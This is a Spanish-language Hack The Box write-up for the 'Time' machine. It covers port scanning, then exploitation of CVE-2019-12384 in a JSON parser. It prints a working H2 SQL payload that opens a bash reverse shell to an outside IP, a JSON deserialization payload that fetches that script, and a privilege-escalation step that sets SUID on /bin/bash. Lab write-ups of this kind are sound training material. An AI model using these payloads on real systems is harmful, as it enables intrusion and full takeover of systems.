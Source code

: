 ```yaml
---
title: "Time - Hack The Box"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "assets/images/machines/time/data/time.png"
  teaser_home_page: true
  icon: "assets/images/icons/Hackthebox2.png"
categories:
  - Writeup
  - HackTheBox
tags:
  - Bash
  - RCE (Remote Code Execution)
  - Json
---
```



<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/data/TimeHTB.png">
</p>

La máquina **Time** es una máquina virtual vulnerable de la plataforma HackTheBox con un nivel de dificultad **medio** una calificación en el rank de 3.5, **5710 USER OWNS** y **5369 SYSTEM OWNS** con la ip **10.10.10.214** y un sistema operativo **Linux**.


### Port Scan

Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.10.214]** utilizando los parámetros:
  - **-p-:**    Escaneo a toda la gama de puertos (65536).
  - **-n:**     No hacen la resolución del DNS.
  - **-T5:**    El parámetro más agresivo y ruidoso pero más rápido para hacer una exploración rápida.
  - **-v:**     Aumenta el nivel de los mensajes verbose.
  - **--open:** Muestra sólo los puertos con estado abierto.
  - **-oG:**    Guarde la el output en formato Grepeable.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/scan/scanPort.png">
</p>


Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPort**, vemos que los puertos que destacaron en este caso fueron **22,80**:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/scan/Ports.png">
</p>


Una vez identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - -sC: Script de enumeración básica de sondeo en puertos y servicios alojados.
  - -sV: Detección de versiones en servicios alojados en puertos.
  - -p : Puertos a inspeccionar.
  - -oN: Formatos de Nmap en los que se guardará el archivo.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/scan/PortServ.png">
</p>


Lo que nmap nos ha mostrado sobre los servicios es que tiene un servicio ssh y una página http que está soportada por apache 2.4.41 que tiene un **Online Json parser** corriendo. Aparte de estos datos no vemos nada fuera de lo normal o que indique un foco a seguir que no sea la página con el Json.

Si entramos en la página web desde el navegador podemos ver la aplicación **Json** que está montada en la web:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/scan/pageWeb.png">
</p>

Una vez que hemos identificado una posible ruta para nuestra auditoría, empezamos a jugar con la aplicación y vemos que tiene dos opciones **'beautify'** y **'validate (beta)'** si introducimos datos en la segunda podemos ver que nos muestra el siguiente error:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/scan/errorPage.png">
</p>


Investigando el error y si tiene alguna forma de abusar de él ya sea para hacer algún tipo de **RCE** u otro potencial camino a seguir y haciendo una buena búsqueda en internet sobre este error encontré un documento en **[github](https://github.com/jas502n/CVE-2019-12384)** que habla de cómo hacer una ejecución de comandos en el  aplicativo aprovechando una vulnerabilidad existente en la misma. Siguiendo los pasos mencionados en la página que los cuales eran crear un archivo **inject.sql** que debe tener el siguiente contenido:

```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.15.125/443 0>&1')
```

Una vez creado el archivo me puse en el puerto **443** y levanté un servidor HTTP en el puerto 8000, una vez hecho esto envié la siguiente consulta a través de la aplicación web:

```json
["ch.qos.logback.core.db.DriverManagerConnectionSource",{"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.15.125:8000/inject.sql'"}]
```

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/intrusion%20/payload.png">
</p>

La respuesta que me dio fue un get al archivo **Inject.sql** en el lado del servidor que inicié y desde el puerto que abrí interpretó el comando dándome un shell:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/intrusion%20/acces.png">
</p>

## Movimiento Lateral

Haciendo un pequeño reconocimiento en el sistema podemos ver que hay una tarea cron que se ejecutan a intervalos de tiempo regulares en este caso cada **7 segundos** el cual es **'timer\_backup.timer'**:

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/intrusion%20/cron.png">
</p>

Una vez que sabemos que existe un CronJob procedemos a buscar el archivo para ver si es una ruta a seguir para conseguir la escalada de privilegios, utilizando el comando ```$ systemctl list-timers ``` podemos encontrar la ubicación de este archivo y concatenando un ls -la podemos ver que el archivo nos pertenece por lo que podemos editarlo sin problemas

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/intrusion%20/cronjob.png">
</p>

## Escalacion de privilegios

Para la escalada de privilegios lo que hice fue ir al archivo y dentro del archivo modifiqué el contenido que tenía por el siguiente:

```bash

#!/bin/bash
chmod 4755 /bin/bash

```

Una vez que modificamos el archivo **timer\_backup** esperamos a que la tarea cron se ejecute y root asigne el permiso **SUID** a la ruta **/bin/bash** lo cual nos permitira utilizar el parámetro ``` bash -p ``` que nos dará una shell como root ya que estamos ejecutando temporalmente el binario como el propiertario del mismo y asi teniendo acceso completo a la máquina y completado el rooteo de la misma.

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/intrusion%20/root.png">
</p>

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/time/intrusion%20/root2.png">
</p>

